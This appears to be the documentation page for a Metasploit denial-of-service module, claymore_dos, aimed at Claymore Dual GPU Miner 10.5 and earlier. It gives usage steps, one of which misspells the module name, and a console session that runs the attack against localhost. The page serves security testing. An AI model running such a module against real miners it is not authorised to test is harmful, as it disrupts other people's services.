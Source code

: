 ## Vulnerable Application

Vulnerable application versions include:
Claymore Dual GPU Miner<=10.5

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/dos/tcp/claymore_doc`
3. Do: `set rhost`
4. Do: `run`
5. check your miner.

## Scenarios

### Claymore Dual GPU Miner/10.0 - window7

```
msf > use auxiliary/dos/tcp/claymore_dos
msf auxiliary(dos/tcp/claymore_dos) > show options

Module options (auxiliary/dos/tcp/claymore_dos):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   rhost                   yes       The target address
   rport  3333             yes       The target port

msf auxiliary(dos/tcp/claymore_dos) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf auxiliary(dos/tcp/claymore_dos) > run

[*] Starting server...
[*] Creating sockets...
[*] Auxiliary module execution completed
```



